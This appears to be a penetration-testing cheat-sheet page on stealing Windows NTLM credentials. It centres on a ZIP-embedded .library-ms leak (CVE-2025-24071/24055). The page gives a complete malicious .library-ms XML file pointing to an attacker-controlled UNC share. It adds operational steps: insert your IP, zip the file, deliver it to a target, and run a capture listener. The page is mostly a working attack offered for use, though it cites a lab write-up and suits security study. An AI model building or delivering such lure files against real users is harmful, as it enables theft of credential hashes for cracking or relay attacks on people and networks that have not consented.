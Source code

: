 # Places to steal NTLM creds

**Check all the great ideas from [https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/) from the download of a microsoft word file online to the ntlm leaks source: https://github.com/soufianetahiri/TeamsNTLMLeak/blob/main/README.md and [https://github.com/p0dalirius/windows-coerced-authentication-methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)**

### ZIP-embedded .library-ms NTLM leak (CVE-2025-24071/24055)

Windows Explorer insecurely handles .library-ms files when they are opened directly from within a ZIP archive. If the library definition points to a remote UNC path (e.g., \\attacker\share), simply browsing/launching the .library-ms inside the ZIP causes Explorer to enumerate the UNC and emit NTLM authentication to the attacker. This yields a NetNTLMv2 that can be cracked offline or potentially relayed.

Minimal .library-ms pointing to an attacker UNC

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <version>6</version>
  <name>Company Documents</name>
  <isLibraryPinned>false</isLibraryPinned>
  <iconReference>shell32.dll,-235</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\10.10.14.2\share</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

Operational steps
- Create the .library-ms file with the XML above (set your IP/hostname).
- Zip it (on Windows: Send to → Compressed (zipped) folder) and deliver the ZIP to the target.
- Run an NTLM capture listener and wait for the victim to open the .library-ms from inside the ZIP.

## References
- [HTB Fluffy – ZIP .library‑ms auth leak (CVE‑2025‑24071/24055) → GenericWrite → AD CS ESC16 to DA (0xdf)](https://0xdf.gitlab.io/2025/09/20/htb-fluffy.html)

